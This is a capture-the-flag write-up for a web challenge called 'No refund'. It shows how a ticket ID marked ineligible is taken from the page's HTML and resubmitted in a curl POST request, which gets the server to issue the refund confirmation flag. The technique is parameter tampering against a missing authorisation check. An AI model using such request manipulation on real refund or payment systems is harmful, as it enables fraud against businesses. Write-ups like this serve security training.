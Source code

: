 # No refund

> You had a train service cancelled and you are entitled to a full refund. However the train companies website is not allowing you to. Can you still get it?

![image](./images/nr1.png)

Submitting refund for the two allowed tickets makes a POST request:

```shell
curl 'https://no-refund-web.2024-bq.ctfcompetition.com/refund' \
  -H 'accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' \
  -H 'accept-language: en-US,en;q=0.9,hi;q=0.8' \
  -H 'cache-control: max-age=0' \
  -H 'content-type: application/x-www-form-urlencoded' \
  -H 'origin: https://no-refund-web.2024-bq.ctfcompetition.com' \
  -H 'priority: u=0, i' \
  -H 'referer: https://no-refund-web.2024-bq.ctfcompetition.com/' \
  -H 'sec-ch-ua: "Chromium";v="140", "Not=A?Brand";v="24", "Google Chrome";v="140"' \
  -H 'sec-ch-ua-mobile: ?0' \
  -H 'sec-ch-ua-platform: "Linux"' \
  -H 'sec-fetch-dest: document' \
  -H 'sec-fetch-mode: navigate' \
  -H 'sec-fetch-site: same-origin' \
  -H 'sec-fetch-user: ?1' \
  -H 'upgrade-insecure-requests: 1' \
  -H 'user-agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36' \
  --data-raw 'reason=delay&ticket_id=2355e4cf000965ac1fe9f0bc2624203e'
```

Both of them result in:

```text
Our records show that the selected train service did not have any significant delay and was not canceled.
If you think this is incorrect please reach out to our customer service team.
```

Inspecting the `index.html`, we get the ticket_id of the disallowed refund:

```html
<div class="ticket-container">
    <div class="ticket" id="85cc3c46f7657a8a962d3b2b299d9be8">
      <p><strong>From:</strong> Flag City</p>
      <p><strong>To:</strong> Sunshine City</p>
      <p><strong>Date:</strong> 2025-08-28</p>
      <p><strong>Time:</strong> 10:30 AM</p>
    </div>
    
    <div class="norefund">
      <h4>Not eligable for refund.</h4>
    </div>
    
</div>
```

Making the above POST request with this ticket_id gives us the flag:

```text
Your ticket will be refundend within 3-5 business days, confirmation code: CTF{xxxxx}
```
